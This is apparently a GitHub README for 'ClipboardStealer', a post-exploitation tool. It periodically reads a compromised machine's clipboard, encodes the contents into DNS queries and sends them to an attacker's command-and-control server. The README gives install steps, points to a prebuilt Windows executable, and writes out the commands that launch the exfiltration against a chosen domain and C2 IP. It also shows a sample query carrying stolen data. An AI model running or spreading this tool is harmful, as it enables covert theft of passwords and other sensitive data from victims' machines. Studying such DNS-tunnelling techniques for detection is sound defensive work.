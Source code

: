 # ClipboardStealer

Clipboard can contain everything from passwords to possible critical data or even code snippets! It can be used post exploitation on Windows,macOS, or Linux machines
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard.
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends it to a command and control (C2) server. The purpose of this program is to demonstrate a covert channel for exfiltrating data using DNS queries.

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, and splits it into small chunks and packs it in DNS record -type A-
it runs every 15 minutes and checks for the content of clipboard, it only sends data if the content is different from last time it was sent

On the server side, queries are parsed and payload is saved in a text file

## Usage

1. Install the required dependencies as mentioned in prerequisites

2. Run the program by executing the `client.py` script:
`python clipboard_sender.py 'domain.com' 'x.x.x.x'`

Where: 
- domain: The domain name that your queries will contain. example:
`;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 40337
;; flags: rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;QzovVXNlcnMvbWhtZF8v.shahin.com. IN      A`

- x.x.x.x is your C2 server

3. If you are using the .exe you can run it by running the following command:
`clipboardhost.exe example.com 8.8.8.8`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)
